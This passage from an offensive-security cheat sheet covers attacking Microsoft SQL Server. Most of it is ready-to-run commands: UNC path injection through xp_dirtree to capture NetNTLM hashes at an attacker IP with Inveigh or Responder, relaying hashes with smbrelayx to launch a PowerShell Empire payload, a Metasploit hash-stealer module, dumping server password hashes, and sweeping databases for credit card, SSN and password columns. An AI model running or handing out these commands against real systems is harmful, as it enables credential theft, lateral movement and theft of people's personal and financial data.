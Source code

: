 ````
 
### Privilege escalation Service Accounts
#### Shared service account
- If multiple SQL Servers share the same service account. Comprimising one server comprimises them all!
 
#### Check as what the server is running
```
Get-SQLInstanceDomain | Get-SQLServerInfo | Select-object Instance, ServiceAccount
```

#### UNC PATH INJECTION
- Public role has access to xp_dirtree and xp_fileexists to abuse UNC PATH INJECTION
- https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e
 
#### Capture NetNTLM password hash
```
.\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
EXEC xp_dirtree '\\<IP>\pwn', 1, 1
```

```
sudo responder -I eth0
Get-SQLInstanceDomain | Invoke-SQLUncPathInjection
```
 
#### Capture NetNTLM password hash and relay it example
```
import-module .\PowerUpSQL.ps1
Import-Module \Scripts\3rdparty\Inveigh.ps1
Import-Module \Scripts\pending\Get-SQLServiceAccountPwHashes.ps1
Get-SQLServiceAccountPwHashes -Verbose -TimeOut 20 -CaptureIp <ATTACKER IP>
 

python smbrelayx.py -h <SQL SERVER IP> -c 'powershell empire launcher'
msf > use auxiliary/admin/mssql/mssql_ntlm_stealer
set SMBPROXY <ATTACKER IP>
set RHOST <TARGET IP>
set GET_PATH <PATH TO SQLI>
run
```

### Data exfiltration
#### SQLServerPasswordHash
```
Get-SQLServerPasswordHash -Verbose -Instance <INSTANCE> -Migrate
```
 
#### Identify Sensitive Data
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | Get-SQLColumnSampleDataThreaded -Verbose -Threads 20 -Keyword "credit,creditcard,ssn,bsn,password,wachtwoord" -SampleSize 2 -ValidateCC -NoDefaults
```
 
#### Identify sensitive data featuring transparent encryption
```
Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq 'TRUE'}| Get-SQLColumnSampleDataThreaded -Verbose -Threads 20 -Keyword "credit,creditcard,ssn,bsn,password,wachtwoord" -SampleSize 2 -ValidateCC -NoDefaults
```

#### SQL Queries
```
#When able to connect directy to the instance
Get-SQLDatabase
````
